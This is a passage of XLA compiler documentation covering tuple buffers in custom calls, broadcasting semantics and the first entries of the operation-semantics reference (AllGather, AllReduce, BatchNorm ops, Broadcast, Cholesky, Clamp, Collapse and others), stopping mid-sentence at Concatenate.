The obvious reason to have tuple outputs is, that's how a custom call (or any
other XLA op) returns multiple independent arrays.

But less obviously, a tuple output is also a way to give your custom call temp
memory. Yes, an *output* can represent a temp buffer. Consider, an output buffer
has the property that the op can write to it, and it can read from it after it's
been written to. That's exactly what you want from a temp buffer.

In the example above, suppose we wanted to use the `F32[1024]` as a temp buffer.
Then we'd write the HLO just as above, and we'd simply never read tuple index 1
of the custom call's output.

### Tuples in CPU custom-calls

In CPU code, we have a function `do_custom_call(const void** ins, void* out)`.
`ins` is an array with just one element, which points to `param0`. The
subbuffers of `param0` are accessible by dereferencing that pointer, and the
subbuffers of `output_tuple` are accessible by dereferencing `out`.

### Tuples in GPU custom-calls

In GPU code, we have a function `do_custom_call(..., void** buffers, ...)`. In
this case `buffers` is a host array of *six* device pointers, one for each leaf
buffer in the input/output. To generate the flat list, we iterate over the
parameters and output, and for each we do a preorder traversal of its shape.
Concretely:

```c++
// Layout of `buffers` parameter to GPU custom call function for custom-call
// above.
buffers[0] == subbuf0
buffers[1] == subbuf1
buffers[2] == subbuf2
buffers[3] == subbuf3
buffers[4] == output_subbuf0
buffers[5] == output_subbuf1
```
# Broadcasting semantics

This document describes how the broadcasting semantics in XLA work.

## What is broadcasting?

Broadcasting is the process of making arrays with different shapes have
compatible shapes for arithmetic operations. The terminology is borrowed from
Numpy
[broadcasting](http://docs.scipy.org/doc/numpy/user/basics.broadcasting.html).

Broadcasting may be required for operations between multi-dimensional arrays of
different ranks, or between multi-dimensional arrays with different but
compatible shapes. Consider the addition `X+v` where `X` is a matrix (an array
of rank 2) and `v` is a vector (an array of rank 1). To perform element-wise
addition, XLA needs to "broadcast" the vector `v` to the same rank as the
matrix `X`, by replicating `v` a certain number of times. The vector's length
has to match at least one of the dimensions of the matrix.

For example:

    |1 2 3| + |7 8 9|
    |4 5 6|

The matrix's dimensions are (2,3), the vector's are (3). The vector is broadcast
by replicating it over rows to get:

    |1 2 3| + |7 8 9| = |8  10 12|
    |4 5 6|   |7 8 9|   |11 13 15|

In Numpy, this is called
[broadcasting](http://docs.scipy.org/doc/numpy/user/basics.broadcasting.html).

## Principles

The XLA language is as strict and explicit as possible, avoiding implicit and
"magical" features. Such features may make some computations slightly easier to
define, at the cost of more assumptions baked into user code that will be
difficult to change in the long term. If necessary, implicit and magical
features can be added in client-level wrappers.

In regards to broadcasting, explicit broadcasting specifications on operations
between arrays of different ranks is required. This is different from Numpy,
which infers the specification when possible.

## Broadcasting a lower-rank array onto a higher-rank array

*Scalars* can always be broadcast over arrays without an explicit specification
of broadcasting dimensions. An element-wise binary operation between a scalar
and an array means applying the operation with the scalar for each element in
the array. For example, adding a scalar to a matrix means producing a matrix
each element of which is a sum of the scalar with the corresponding input
matrix's element.

    |1 2 3| + 7 = |8  9  10|
    |4 5 6|       |11 12 13|

Most broadcasting needs can be captured by using a tuple of dimensions on a
binary operation. When the inputs to the operation have different ranks, this
broadcasting tuple specifies which dimension(s) in the **higher-rank** array to
match with the **lower-rank** array.

Consider the previous example, instead of adding a scalar to a (2,3) matrix, add
a vector of dimension (3) to a matrix of dimensions (2,3). *Without specifying
broadcasting, this operation is invalid.* To correctly request matrix-vector
addition, specify the broadcasting dimension to be (1), meaning the vector's
dimension is matched to dimension 1 of the matrix. In 2D, if dimension 0 is
considered as rows and dimension 1 as columns, this means that each element of
the vector becomes a column of a size matching the number of rows in the matrix:

    |7 8 9| ==> |7 8 9|
                |7 8 9|

As a more complex example, consider adding a 3-element vector (dimension (3)) to
a 3x3 matrix (dimensions (3,3)). There are two ways broadcasting can happen for
this example:

(1) A broadcasting dimension of 1 can be used. Each vector element becomes a
column and the vector is duplicated for each row in the matrix.

    |7 8 9| ==> |7 8 9|
                |7 8 9|
                |7 8 9|

(2) A broadcasting dimension of 0 can be used. Each vector element becomes a row
and the vector is duplicated for each column in the matrix.

     |7| ==> |7 7 7|
     |8|     |8 8 8|
     |9|     |9 9 9|

> Note: when adding a 2x3 matrix to a 3-element vector, a broadcasting dimension
> of 0 is invalid.

The broadcasting dimensions can be a tuple that describes how a smaller rank
shape is broadcast into a larger rank shape. For example, given a 2x3x4 cuboid
and a 3x4 matrix, a broadcasting tuple (1,2) means matching the matrix to
dimensions 1 and 2 of the cuboid.

This type of broadcast is used in the binary ops in `XlaBuilder`, if the
`broadcast_dimensions` argument is given. For example, see
[XlaBuilder::Add](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.cc).
In the XLA source code, this type of broadcasting is sometimes called "InDim"
broadcasting.

### Formal definition

The broadcasting attribute allows matching a lower-rank array to a higher-rank
array, by specifying which dimensions of the higher-rank array to match. For
example, for an array with dimensions MxNxPxQ, a vector with dimension T can be
matched as follows:

              MxNxPxQ

    dim 3:          T
    dim 2:        T
    dim 1:      T
    dim 0:    T

In each case, T has to be equal to the matching dimension of the higher-rank
array. The vector's values are then broadcast from the matched dimension to all
the other dimensions.

To match a TxV matrix onto the MxNxPxQ array, a pair of broadcasting dimensions
are used:

              MxNxPxQ
    dim 2,3:      T V
    dim 1,2:    T V
    dim 0,3:  T     V
    etc...

The order of dimensions in the broadcasting tuple has to be the order in which
the lower-rank array's dimensions are expected to match the higher-rank array's
dimensions. The first element in the tuple says which dimension in the
higher-rank array has to match dimension 0 in the lower-rank array. The second
element for dimension 1, and so on. The order of broadcast dimensions has to be
strictly increasing. For example, in the previous example it is illegal to match
V to N and T to P; it is also illegal to match V to both P and N.

## Broadcasting similar-rank arrays with degenerate dimensions

A related broadcasting problem is broadcasting two arrays that have the same
rank but different dimension sizes. Similarly to Numpy's rules, this is only
possible when the arrays are *compatible*. Two arrays are compatible when all
their dimensions are compatible. Two dimensions are compatible if:

*   They are equal, or
*   One of them is 1 (a "degenerate" dimension)

When two compatible arrays are encountered, the result shape has the maximum
among the two inputs at every dimension index.

Examples:

1.  (2,1) and (2,3) broadcast to (2,3).
2.  (1,2,5) and (7,2,5) broadcast to (7,2,5)
3.  (7,2,5) and (7,1,5) broadcast to (7,2,5)
4.  (7,2,5) and (7,2,6) are incompatible and cannot be broadcast.

A special case arises, and is also supported, where each of the input arrays has
a degenerate dimension at a different index. In this case, the result is an
"outer operation": (2,1) and (1,3) broadcast to (2,3). For more examples,
consult the
[Numpy documentation on broadcasting](http://docs.scipy.org/doc/numpy/user/basics.broadcasting.html).

## Broadcast composition

Broadcasting of a lower-rank array to a higher-rank array **and** broadcasting
using degenerate dimensions can both be performed in the same binary operation.
For example, a vector of size 4 and a matrix of size 1x2 can be added together
using broadcast dimensions value of (0):

    |1 2 3 4| + [5 6]    // [5 6] is a 1x2 matrix, not a vector.

First the vector is broadcast up to rank 2 (matrix) using the broadcast
dimensions. The single value (0) in the broadcast dimensions indicates that
dimension zero of the vector matches to dimension zero of the matrix. This
produces a matrix of size 4xM where the value M is chosen to match the
corresponding dimension size in the 1x2 array. Therefore, a 4x2 matrix is
produced:

    |1 1| + [5 6]
    |2 2|
    |3 3|
    |4 4|

Then "degenerate dimension broadcasting" broadcasts dimension zero of the 1x2
matrix to match the corresponding dimension size of the right hand side:

    |1 1| + |5 6|     |6  7|
    |2 2| + |5 6|  =  |7  8|
    |3 3| + |5 6|     |8  9|
    |4 4| + |5 6|     |9 10|

A more complicated example is a matrix of size 1x2 added to an array of size
4x3x1 using broadcast dimensions of (1, 2). First the 1x2 matrix is broadcast up
to rank 3 using the broadcast dimensions to produces an intermediate Mx1x2 array
where the dimension size M is determined by the size of the larger operand (the
4x3x1 array) producing a 4x1x2 intermediate array. The M is at dimension 0
(left-most dimension) because the dimensions 1 and 2 are mapped to the
dimensions of the original 1x2 matrix as the broadcast dimension are (1, 2).
This intermediate array can be added to the 4x3x1 matrix using broadcasting of
degenerate dimensions to produce a 4x3x2 array result.
# Operation Semantics

The following describes the semantics of operations defined in the
[`XlaBuilder`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h)
interface. Typically, these operations map one-to-one to operations defined in
the RPC interface in
[`xla_data.proto`](https://www.tensorflow.org/code/tensorflow/compiler/xla/xla_data.proto).

A note on nomenclature: the generalized data type XLA deals with is an
N-dimensional array holding elements of some uniform type (such as 32-bit
float). Throughout the documentation, *array* is used to denote an
arbitrary-dimensional array. For convenience, special cases have more specific
and familiar names; for example a *vector* is a 1-dimensional array and a
*matrix* is a 2-dimensional array.

## AfterAll

See also
[`XlaBuilder::AfterAll`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

AfterAll takes a variadic number of tokens and produces a single token. Tokens
are primitive types which can be threaded between side-effecting operations to
enforce ordering. `AfterAll` can be used as a join of tokens for ordering a
operation after a set operations.

<b> `AfterAll(operands)` </b>

Arguments  | Type    | Semantics
---------- | ------- | -------------------------
`operands` | `XlaOp` | variadic number of tokens

## AllGather

See also
[`XlaBuilder::AllGather`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Performs concatenation across replicas.

<b> `AllGather(operand, all_gather_dim, shard_count, replica_group_ids,
channel_id)` </b>

| Arguments        | Type                 | Semantics                   |
| ---------------- | -------------------- | --------------------------- |
| `operand`        | `XlaOp`              | Array to concatenate across |
:                  :                      : replicas.                   :
| `all_gather_dim` | `int64`              | Concatenation dimension.    |
| `replica_groups` | vector of vectors of | Groups between which the    |
:                  : `int64`              : concatenation is performed. :
| `channel_id`     | optional `int64`     | Optional channel ID for     |
:                  :                      : cross-module communication. :

-   `replica_groups` is a list of replica groups between which the concatenation
    is performed (replica id for the current replica can be retrieved using
    [`ReplicaId`](#replicaid)). The order of replicas in each group determines
    the order in which their inputs are located in the result. `replica_groups`
    must either be empty (in which case all replicas belong to a single group,
    ordered from `0` to `N - 1`), or contain the same number of elements as the
    number of replicas. For example, `replica_groups = {0, 2}, {1, 3}` performs
    concatenation between the replicas `0` and `2`, and `1` and `3`.
-   `shard_count` is the size of each replica group. We need this in cases where
    `replica_groups` are empty.
-   `channel_id` is used for cross-module communication: only `all-gather`
    operations with the same `channel_id` can communicate to each other.

The output shape is the input shape with the `all_gather_dim` made `shard_count`
times larger. For example, if there are two replicas and the operand has the
value `[1.0, 2.5]` and `[3.0, 5.25]` respectively on the two replicas, then the
output value from this op where `all_gather_dim` is `0` will be `[1.0, 2.5, 3.0,
5.25]` on both replicas.

## AllReduce

See also
[`XlaBuilder::AllReduce`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Performs a custom computation across replicas.

<b> `AllReduce(operand, computation, replica_group_ids, channel_id)` </b>

| Arguments        | Type                 | Semantics                         |
| ---------------- | -------------------- | --------------------------------- |
| `operand`        | `XlaOp`              | Array or a non-empty tuple of     |
:                  :                      : arrays to reduce across replicas. :
| `computation`    | `XlaComputation`     | Reduction computation             |
| `replica_groups` | vector of vectors of | Groups between which the          |
:                  : `int64`              : reductions are performed          :
| `channel_id`     | optional `int64`     | Optional channel ID for           |
:                  :                      : cross-module communication        :

-   When `operand` is a tuple of arrays, the all-reduce is performed on each
    element of the tuple.
-   `replica_groups` is a list of replica groups between which the reduction is
    performed (replica id for the current replica can be retrieved using
    [`ReplicaId`](#replicaid)). `replica_groups` must either be empty (in which
    case all replicas belong to a single group), or contain the same number of
    elements as the number of replicas. For example, `replica_groups = {0, 2},
    {1, 3}` performs reduction between the replicas `0` and `2`, and `1` and
    `3`.
-   `channel_id` is used for cross-module communication: only `all-reduce`
    operations with the same `channel_id` can communicate to each other.

The output shape is the same as the input shape. For example, if there are two
replicas and the operand has the value `[1.0, 2.5]` and `[3.0, 5.25]`
respectively on the two replicas, then the output value from this op and
summation computation will be `[4.0, 7.75]` on both replicas. If the input is a
tuple, the output is a tuple as well.

Computing the result of `AllReduce` requires having one input from each replica,
so if one replica executes a `AllReduce` node more times than another, then the
former replica will wait forever. Since the replicas are all running the same
program, there are not a lot of ways for that to happen, but it is possible when
a while loop's condition depends on data from infeed and the data that is infed
causes the while loop to iterate more times on one replica than another.

## AllToAll

See also
[`XlaBuilder::AllToAll`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

AllToAll is a collective operation that sends data from all cores to all cores.
It has two phases:

1.  The scatter phase. On each core, the operand is split into `split_count`
    number of blocks along the `split_dimensions`, and the blocks are scattered
    to all cores, e.g., the ith block is send to the ith core.
2.  The gather phase. Each core concatenates the received blocks along the
    `concat_dimension`.

The participating cores can be configured by:

-   `replica_groups`: each ReplicaGroup contains a list of replica id
    participating in the computation (replica id for the current replica can be
    retrieved using [`ReplicaId`](#replicaid)). AllToAll will be applied within
    subgroups in the specified order. For example, `replica_groups = {{1,2,3},
    {4,5,0}}` means that an AllToAll will be applied within replicas `{1, 2,
    3}`, and in the gather phase, and the received blocks will be concatenated
    in the same order of 1, 2, 3. Then, another AllToAll will be applied within
    replicas 4, 5, 0, and the concatenation order is also 4, 5, 0. If
    `replica_groups` is empty, all replicas belong to one group, in the
    concatenation order of their appearance.

Prerequisites:

-   The dimension size of the operand on the `split_dimension` is divisible by
`split_count`.
-   The operand's shape is not tuple.

<b> `AllToAll(operand, split_dimension, concat_dimension, split_count,
replica_groups)` </b>


| Arguments          | Type                  | Semantics                       |
| ------------------ | --------------------- | ------------------------------- |
| `operand`          | `XlaOp`               | n dimensional input array       |
| `split_dimension`  | `int64`               | A value in the interval `[0,    |
:                    :                       : n)` that names the dimension    :
:                    :                       : along which the operand is      :
:                    :                       : split                           :
| `concat_dimension` | `int64`               | a value in the interval `[0,    |
:                    :                       : n)` that names the dimension    :
:                    :                       : along which the split blocks    :
:                    :                       : are concatenated                :
| `split_count`      | `int64`               | the number of cores that        |
:                    :                       : participate this operation. If  :
:                    :                       : `replica_groups` is empty, this :
:                    :                       : should be the number of         :
:                    :                       : replicas; otherwise, this       :
:                    :                       : should be equal to the number   :
:                    :                       : of replicas in each group.      :
| `replica_groups`   | `ReplicaGroup` vector | each group contains a list of   |
:                    :                       : replica id.                     :

Below shows an example of Alltoall.

```
XlaBuilder b("alltoall");
auto x = Parameter(&b, 0, ShapeUtil::MakeShape(F32, {4, 16}), "x");
AllToAll(x, /*split_dimension=*/1, /*concat_dimension=*/0, /*split_count=*/4);
```

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">

</div>

In this example, there are 4 cores participating the Alltoall. On each core, the
operand is split into 4 parts along dimension 0, so each part has shape
f32[4,4]. The 4 parts are scattered to all cores. Then each core concatenates
the received parts along dimension 1, in the order or core 0-4. So the output on
each core has shape f32[16,4].

## BatchNormGrad

See also
[`XlaBuilder::BatchNormGrad`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h)
and [the original batch normalization paper](https://arxiv.org/abs/1502.03167)
for a detailed description of the algorithm.

Calculates gradients of batch norm.

<b> `BatchNormGrad(operand, scale, mean, variance, grad_output, epsilon, feature_index)` </b>

| Arguments       | Type                    | Semantics                        |
| --------------- | ----------------------- | -------------------------------- |
| `operand`       | `XlaOp`                 | n dimensional array to be        |
:                 :                         : normalized (x)                   :
| `scale`         | `XlaOp`                 | 1 dimensional array              |
:                 :                         : (\\(\gamma\\))                   :
| `mean`          | `XlaOp`                 | 1 dimensional array (\\(\mu\\))  |
| `variance`      | `XlaOp`                 | 1 dimensional array              |
:                 :                         : (\\(\sigma^2\\))                 :
| `grad_output`   | `XlaOp`                 | Gradients passed to              |
:                 :                         : `BatchNormTraining`              :
:                 :                         : (\\( \nabla y\\))                :
| `epsilon`       | `float`                 | Epsilon value (\\(\epsilon\\))   |
| `feature_index` | `int64`                 | Index to feature dimension in    |
:                 :                         : `operand`                        :

For each feature in the feature dimension (`feature_index` is the index for the
feature dimension in `operand`), the operation calculates the gradients with
respect to `operand`, `offset` and `scale` across all the other dimensions. The
`feature_index` must be a valid index for the feature dimension in `operand`.

The three gradients are defined by the following formulas (assuming a
4-dimensional array as `operand` and with feature dimension index `l`, batch
size `m` and spatial sizes `w` and `h`):

\\[ \begin{split} c_l&=
\frac{1}{mwh}\sum_{i=1}^m\sum_{j=1}^w\sum_{k=1}^h
\left( \nabla y_{ijkl} \frac{x_{ijkl} - \mu_l}{\sigma^2_l+\epsilon} \right)
\\\\
\nabla x_{ijkl} &= \frac{\gamma_{l}}{\sqrt{\sigma^2_{l}+\epsilon}}
\left( \nabla y_{ijkl} - \mathrm{mean}(\nabla y) - c_l (x_{ijkl} - \mu_{l})
\right)
\\\\
\nabla \gamma_l &= \sum_{i=1}^m\sum_{j=1}^w\sum_{k=1}^h \left( \nabla y_{ijkl}
\frac{x_{ijkl} - \mu_l}{\sqrt{\sigma^2_{l}+\epsilon}} \right)
\\\\\
\nabla \beta_l &= \sum_{i=1}^m\sum_{j=1}^w\sum_{k=1}^h \nabla y_{ijkl}
\end{split} \\]

The inputs `mean` and `variance` represent moments value
across batch and spatial dimensions.

The output type is a tuple of three handles:

| Outputs        | Type                    | Semantics                         |
| -------------  | ----------------------- | --------------------------------- |
| `grad_operand` | `XlaOp`                 | gradient with respect to input    |
:                :                         : `operand` (\\( \nabla x\\))       :
| `grad_scale`   | `XlaOp`                 | gradient with respect to input    |
:                :                         : `scale` (\\( \nabla \gamma\\))    :
| `grad_offset`  | `XlaOp`                 | gradient with respect to input    |
:                :                         : `offset`(\\( \nabla \beta\\))     :

## BatchNormInference

See also
[`XlaBuilder::BatchNormInference`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h)
and [the original batch normalization paper](https://arxiv.org/abs/1502.03167)
for a detailed description of the algorithm.

Normalizes an array across batch and spatial dimensions.

<b> `BatchNormInference(operand, scale, offset, mean, variance, epsilon, feature_index)` </b>

Arguments       | Type    | Semantics
--------------- | ------- | ---------------------------------------
`operand`       | `XlaOp` | n dimensional array to be normalized
`scale`         | `XlaOp` | 1 dimensional array
`offset`        | `XlaOp` | 1 dimensional array
`mean`          | `XlaOp` | 1 dimensional array
`variance`      | `XlaOp` | 1 dimensional array
`epsilon`       | `float` | Epsilon value
`feature_index` | `int64` | Index to feature dimension in `operand`

For each feature in the feature dimension (`feature_index` is the index for the
feature dimension in `operand`), the operation calculates the mean and variance
across all the other dimensions and uses the mean and variance to normalize each
element in `operand`. The `feature_index` must be a valid index for the feature
dimension in `operand`.

`BatchNormInference`  is equivalent to calling `BatchNormTraining` without
computing `mean` and `variance` for each batch. It uses the input `mean` and
`variance` instead as estimated values. The purpose of this op is to reduce
latency in inference, hence the name `BatchNormInference`.

The output is an n-dimensional, normalized array with the same shape as input
`operand`.

## BatchNormTraining

See also
[`XlaBuilder::BatchNormTraining`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h)
and [`the original batch normalization paper`](https://arxiv.org/abs/1502.03167)
for a detailed description of the algorithm.

Normalizes an array across batch and spatial dimensions.

<b> `BatchNormTraining(operand, scale, offset, epsilon, feature_index)` </b>

Arguments       | Type    | Semantics
--------------- | ------- | ----------------------------------------
`operand`       | `XlaOp` | n dimensional array to be normalized (x)
`scale`         | `XlaOp` | 1 dimensional array (\\(\gamma\\))
`offset`        | `XlaOp` | 1 dimensional array (\\(\beta\\))
`epsilon`       | `float` | Epsilon value (\\(\epsilon\\))
`feature_index` | `int64` | Index to feature dimension in `operand`

For each feature in the feature dimension (`feature_index` is the index for the
feature dimension in `operand`), the operation calculates the mean and variance
across all the other dimensions and uses the mean and variance to normalize each
element in `operand`. The `feature_index` must be a valid index for the feature
dimension in `operand`.

The algorithm goes as follows for each batch in `operand` \\(x\\) that
contains `m` elements with `w` and `h` as the size of spatial dimensions
(assuming `operand` is an 4 dimensional array):

- Calculates batch mean \\(\mu_l\\) for each feature `l` in feature dimension:
\\(\mu_l=\frac{1}{mwh}\sum_{i=1}^m\sum_{j=1}^w\sum_{k=1}^h x_{ijkl}\\)

- Calculates batch variance \\(\sigma^2_l\\):
\\(\sigma^2_l=\frac{1}{mwh}\sum_{i=1}^m\sum_{j=1}^w\sum_{k=1}^h (x_{ijkl} - \mu_l)^2\\)

- Normalizes, scales and shifts:
\\(y_{ijkl}=\frac{\gamma_l(x_{ijkl}-\mu_l)}{\sqrt[2]{\sigma^2_l+\epsilon}}+\beta_l\\)

The epsilon value, usually a small number, is added to avoid divide-by-zero errors.

The output type is a tuple of three `XlaOp`s:

| Outputs      | Type                    | Semantics                            |
| ------------ | ----------------------- | -------------------------------------|
| `output`     | `XlaOp`                 | n dimensional array with the same    |
:              :                         : shape as input `operand` (y)         :
| `batch_mean` | `XlaOp`                 | 1 dimensional array (\\(\mu\\))      |
| `batch_var`  | `XlaOp`                 | 1 dimensional array (\\(\sigma^2\\)) |

The `batch_mean` and `batch_var` are moments calculated across the batch and
spatial dimensions using the formulas above.

## BitcastConvertType

See also
[`XlaBuilder::BitcastConvertType`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Similar to a `tf.bitcast` in TensorFlow, performs an element-wise bitcast
operation from a data shape to a target shape. The input and output size must
match: e.g. `s32` elements become `f32` elements via bitcast routine, and one
`s32` element will become four `s8` elements. Bitcast is implemented as a
low-level cast, so machines with different floating-point representations will
give different results.

<b> `BitcastConvertType(operand, new_element_type)` </b>

Arguments          | Type            | Semantics
------------------ | --------------- | ---------------------------
`operand`          | `XlaOp`         | array of type T with dims D
`new_element_type` | `PrimitiveType` | type U

The dimensions of the operand and the target shape must match, apart from the
last dimension which will change by the ratio of the primitive size before and
after the conversion.

The source and destination element types must not be tuples.

### Bitcast-converting to primitive type of different width

`BitcastConvert` HLO instruction supports the case where the size of the output
element type `T'` is not equal to the size of the input element `T`. As the
whole operation is conceptually a bitcast and does not change the underlying
bytes, the shape of the output element has to change. For `B = sizeof(T), B' =
sizeof(T')`, there are two possible cases.

First, when `B > B'`, the output shape gets a new minor-most dimension of size
`B/B'`. For example:

```
  f16[10,2]{1,0} %output = f16[10,2]{1,0} bitcast-convert(f32[10]{0} %input)
```

The rule remains the same for effective scalars:

```
  f16[2]{0} %output = f16[2]{0} bitcast-convert(f32[] %input)
```

Alternatively, for `B' > B` the instruction requires the last logical dimension
of the input shape to be equal to `B'/B`, and this dimension is dropped during
the conversion:

```
  f32[10]{0} %output = f32[10]{0} bitcast-convert(f16[10,2]{1,0} %input)
```

Note that conversions between different bitwidths are not elementwise.

## Broadcast

See also
[`XlaBuilder::Broadcast`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Adds dimensions to an array by duplicating the data in the array.

<b> `Broadcast(operand, broadcast_sizes)` </b>

Arguments         | Type                | Semantics
----------------- | ------------------- | -------------------------------
`operand`         | `XlaOp`             | The array to duplicate
`broadcast_sizes` | `ArraySlice<int64>` | The sizes of the new dimensions

The new dimensions are inserted on the left, i.e. if `broadcast_sizes` has
values `{a0, ..., aN}` and the operand shape has dimensions `{b0, ..., bM}` then
the shape of the output has dimensions `{a0, ..., aN, b0, ..., bM}`.

The new dimensions index into copies of the operand, i.e.

```
output[i0, ..., iN, j0, ..., jM] = operand[j0, ..., jM]
```

For example, if `operand` is a scalar `f32` with value `2.0f`, and
`broadcast_sizes` is `{2, 3}`, then the result will be an array with shape
`f32[2, 3]` and all the values in the result will be `2.0f`.

## BroadcastInDim

See also
[`XlaBuilder::BroadcastInDim`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Expands the size and rank of an array by duplicating the data in the array.

<b> `BroadcastInDim(operand, out_dim_size, broadcast_dimensions)` </b>

| Arguments              | Type                | Semantics                     |
| ---------------------- | ------------------- | ----------------------------- |
| `operand`              | `XlaOp`             | The array to duplicate        |
| `out_dim_size`         | `ArraySlice<int64>` | The sizes of the dimensions   |
:                        :                     : of the target shape           :
| `broadcast_dimensions` | `ArraySlice<int64>` | Which dimension in the target |
:                        :                     : shape each dimension of the   :
:                        :                     : operand shape corresponds to  :

Similar to Broadcast, but allows adding dimensions anywhere and expanding
existing dimensions with size 1.

The `operand` is broadcast to the shape described by `out_dim_size`.
`broadcast_dimensions` maps the dimensions of `operand` to the dimensions of the
target shape, i.e. the i'th dimension of the operand is mapped to the
broadcast_dimension\[i\]'th dimension of the output shape. The dimensions of
`operand` must have size 1 or be the same size as the dimension in the output
shape they are mapped to. The remaining dimensions are filled with dimensions of
size 1. Degenerate-dimension broadcasting then broadcasts along these degenerate
dimensions to reach the output shape. The semantics are described in detail on
the [broadcasting page](broadcasting.md).

## Call

See also
[`XlaBuilder::Call`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Invokes a computation with the given arguments.

<b> `Call(computation, args...)` </b>

| Arguments     | Type                   | Semantics                           |
| ------------- | ---------------------- | ----------------------------------- |
| `computation` | `XlaComputation`       | computation of type `T_0, T_1, ..., |
:               :                        : T_{N-1} -> S` with N parameters of  :
:               :                        : arbitrary type                      :
| `args`        | sequence of N `XlaOp`s | N arguments of arbitrary type       |

The arity and types of the `args` must match the parameters of the
`computation`. It is allowed to have no `args`.

## Cholesky

See also
[`XlaBuilder::Cholesky`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Computes the
[Cholesky decomposition](https://en.wikipedia.org/wiki/Cholesky_decomposition)
of a batch of symmetric (Hermitian) positive definite matrices.

<b> `Cholesky(a, lower)` </b>

Arguments | Type    | Semantics
--------- | ------- | -----------------------------------------------------
`a`       | `XlaOp` | a rank > 2 array of a complex or floating-point type.
`lower`   | `bool`  | whether to use the upper or lower triangle of `a`.

If `lower` is `true`, computes lower-triangular matrices `l` such that $$ a = l
. l^T $$. If `lower` is `false`, computes upper-triangular matrices `u` such
that $$ a = u^T . u $$.

Input data is read only from the lower/upper triangle of `a`, depending on the
value of `lower`. Values from the other triangle are ignored. Output data is
returned in the same triangle; the values in the other triangle are
implementation-defined and may be anything.

If the rank of `a` is greater than 2, `a` is treated as a batch of matrices,
where all except the minor 2 dimensions are batch dimensions.

If `a` is not symmetric (Hermitian) positive definite, the result is
implementation-defined.

## Clamp

See also
[`XlaBuilder::Clamp`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Clamps an operand to within the range between a minimum and maximum value.

<b> `Clamp(min, operand, max)` </b>

Arguments | Type    | Semantics
--------- | ------- | ---------------
`min`     | `XlaOp` | array of type T
`operand` | `XlaOp` | array of type T
`max`     | `XlaOp` | array of type T

Given an operand and minimum and maximum values, returns the operand if it is in
the range between the minimum and maximum, else returns the minimum value if the
operand is below this range or the maximum value if the operand is above this
range.  That is, `clamp(a, x, b) =  min(max(a, x), b)`.

All three arrays must be the same shape. Alternatively, as a restricted form of
[broadcasting](broadcasting.md), `min` and/or `max` can be a scalar of type `T`.

Example with scalar `min` and `max`:

```
let operand: s32[3] = {-1, 5, 9};
let min: s32 = 0;
let max: s32 = 6;
==>
Clamp(min, operand, max) = s32[3]{0, 5, 6};
```

## Collapse

See also
[`XlaBuilder::Collapse`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h)
and the `tf.reshape` operation.

Collapses dimensions of an array into one dimension.

<b> `Collapse(operand, dimensions)` </b>

Arguments    | Type           | Semantics
------------ | -------------- | -----------------------------------------------
`operand`    | `XlaOp`        | array of type T
`dimensions` | `int64` vector | in-order, consecutive subset of T's dimensions.

Collapse replaces the given subset of the operand's dimensions by a single
dimension. The input arguments are an arbitrary array of type T and a
compile-time-constant vector of dimension indices. The dimension indices must be
an in-order (low to high dimension numbers), consecutive subset of T's
dimensions. Thus, {0, 1, 2}, {0, 1}, or {1, 2} are all valid dimension sets, but
{1, 0} or {0, 2} are not. They are replaced by a single new dimension, in the
same position in the dimension sequence as those they replace, with the new
dimension size equal to the product of original dimension sizes. The lowest
dimension number in `dimensions` is the slowest varying dimension (most major)
in the loop nest which collapses these dimension, and the highest dimension
number is fastest varying (most minor). See the `tf.reshape` operator
if more general collapse ordering is needed.

For example, let v be an array of 24 elements:

```
let v = f32[4x2x3] {{{10, 11, 12},  {15, 16, 17}},
{{20, 21, 22},  {25, 26, 27}},
{{30, 31, 32},  {35, 36, 37}},
{{40, 41, 42},  {45, 46, 47}}};

// Collapse to a single dimension, leaving one dimension.
let v012 = Collapse(v, {0,1,2});
then v012 == f32[24] {10, 11, 12, 15, 16, 17,
20, 21, 22, 25, 26, 27,
30, 31, 32, 35, 36, 37,
40, 41, 42, 45, 46, 47};

// Collapse the two lower dimensions, leaving two dimensions.
let v01 = Collapse(v, {0,1});
then v01 == f32[4x6] {{10, 11, 12, 15, 16, 17},
{20, 21, 22, 25, 26, 27},
{30, 31, 32, 35, 36, 37},
{40, 41, 42, 45, 46, 47}};

// Collapse the two higher dimensions, leaving two dimensions.
let v12 = Collapse(v, {1,2});
then v12 == f32[8x3] {{10, 11, 12},
{15, 16, 17},
{20, 21, 22},
{25, 26, 27},
{30, 31, 32},
{35, 36, 37},
{40, 41, 42},
{45, 46, 47}};

```

## CollectivePermute

See also
[`XlaBuilder::CollectivePermute`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

CollectivePermute is a collective operation that sends and receives data cross
replicas.

<b> `CollectivePermute(operand, source_target_pairs)` </b>

| Arguments             | Type                    | Semantics                  |
| --------------------- | ----------------------- | -------------------------- |
| `operand`             | `XlaOp`                 | n dimensional input array  |
| `source_target_pairs` | `<int64, int64>` vector | A list of                  |
:                       :                         : (source_replica_id,        :
:                       :                         : target_replica_id) pairs.  :
:                       :                         : For each pair, the operand :
:                       :                         : is sent from source        :
:                       :                         : replica to target replica. :

Note that there are the following restrictions on the `source_target_pair`:

-   Any two pairs should not have the same target replica id, and they should
not have the same source replica id.
-   If a replica id is not a target in any pair, then the output on that replica
is a tensor consists of 0(s) with the same shape as the input.

## Concatenate

See also
[`XlaBuilder::ConcatInDim`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Concatenate composes an array from multiple array operands. The array is of the
